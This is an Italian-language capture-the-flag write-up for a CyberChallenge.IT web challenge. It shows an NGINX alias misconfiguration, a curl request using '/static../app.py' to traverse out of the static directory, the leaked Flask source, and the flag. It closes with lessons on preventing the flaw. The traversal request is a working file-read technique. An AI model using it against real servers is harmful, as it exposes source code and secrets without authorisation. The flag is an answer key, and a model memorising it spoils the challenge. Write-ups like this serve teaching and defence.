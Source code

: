 # Writeup: WS_1.08 - not a bug

## Overview
- **Categoria**: Web  
- **Autore**: bonaff  
- **Difficoltà**: 491  
- **Stato**: Up (last checked: 11 minutes ago)  
- **URL**: [http://notabug.challs.cyberchallenge.it/](http://notabug.challs.cyberchallenge.it/)

## Descrizione 📝
La challenge presenta un sito web con una configurazione di **NGINX** potenzialmente vulnerabile. In particolare, la direttiva `alias` utilizzata per servire la directory `/srv/app/static/` potrebbe consentire un attacco di **Path Traversal** se non configurata correttamente, permettendo l’accesso a file al di fuori di quella directory.

## Soluzione 🎯

### 1. Analisi dei File di Configurazione
Tra i file allegati, **nginx.conf** contiene una direttiva:
```nginx
location /static {
    alias /srv/app/static/;
    ...
}
```
Se NGINX non gestisce correttamente i percorsi relativi, potrebbe essere possibile uscire dalla cartella `/srv/app/static/` con `..`.

### 2. Sfruttamento del Path Traversal
Si tenta una richiesta HTTP contenente `../` per accedere a file fuori dalla cartella `static`. In particolare, `app.py` si trova in `/srv/app/`. Usando `static..`, costruiamo un percorso che punta a:
```
/srv/app/static/../app.py
```
equivalente a:
```
/srv/app/app.py
```
Proviamo con `curl`:
```bash
curl -v http://notabug.challs.cyberchallenge.it/static../app.py
```
### 3. Lettura del Contenuto
La risposta HTTP restituisce il codice sorgente di `app.py`:
```python
import flask

app = flask.Flask(__name__)
# mmh, a secret
flag = "CCIT{put_4_sl4sh_1n_th0s3_ali4s3s!}"

# this site is still on construction.
# As you can see there is litteraly nothing here

@app.route('/')
def index():
    return flask.render_template('index.html')

if __name__ == '__main__':
    app.run()
```
All’interno troviamo la **flag**:

## Flag 🏁
```
CCIT{put_4_sl4sh_1n_th0s3_ali4s3s!}
```

## Lezioni Apprese 📚
1. **Alias di NGINX**: Se non configurato correttamente, è suscettibile a **Path Traversal**.  
2. **Verifica dei Percorsi**: Anche se si definisce una directory statica, bisogna gestire correttamente caratteri come `..` per evitare che l’utente esca dalla cartella prevista.  
3. **Importanza della Sanitizzazione**: Limitare i percorsi o utilizzare `try_files` con path assoluti può prevenire exploit simili.

## Tools Utilizzati 🛠️
- **Browser / cURL**: Per testare manualmente la vulnerabilità di Path Traversal.  
- **NGINX**: Analisi del file di configurazione.  
- **Docker** (opzionale): Se si è eseguito localmente per riprodurre il setup.

---

*Writeup by Luca Crippa - Last Updated: 2024*
